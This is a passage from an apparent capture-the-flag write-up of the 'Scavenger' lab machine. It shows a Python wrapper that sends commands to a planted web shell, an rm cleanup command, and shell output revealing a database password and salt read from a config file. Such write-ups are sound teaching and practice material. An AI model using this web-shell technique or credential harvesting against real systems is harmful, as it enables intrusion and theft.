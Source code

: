         def run_raw_command(self, cmd, timeout=50):
            try:
                return requests.get(
                    "http://sec03.rentahacker.htb/shell.php",
                    params={"hidden": cmd},
                    timeout=timeout,
                ).text
            except requests.exceptions.ReadTimeout:
                pass
    
    
    term = Term()
    try:
        term.cmdloop()
    except KeyboardInterrupt:
        term.run_raw_command("rm /dev/shm/output*i /dev/shm/input*")
        print()
    

In this shell, I can `su`, change directories, etc, as it is a single running
`sh` process.

## FTP Accesses

### Enumeration

Looking around the box, I find two sets of credentials that are useful The
first is in the current user’s home directory, in the website install, there’s
credentials for the database:

    
    
    scavenger> pwd
    /home/ib01c03/sec03/config
    
    scavenger> cat config_inc.php
    <?php
    $g_hostname               = 'localhost';
    $g_db_type                = 'mysqli';
    $g_database_name          = 'ib01c03';
    $g_db_username            = 'ib01c03';
    $g_db_password            = 'Thi$sh1tIsN0tGut';
    
    $g_default_timezone       = 'Europe/Berlin';
    
    $g_crypto_master_salt     = 'DCD4OIydnPefp27q8Bu5TJHE2RfyO4Zit13B6zLfJdQ=';
    

Additionally, digging around some more, there’s mail in `/var/spool/mail`:

    
    
    scavenger> ls -l
    total 8
    -rw-rw-r-- 1 root mail 1274 Dec 10  2018 ib01c03
    -rw-rw---- 1 root mail 1043 Dec 11  2018 support
    
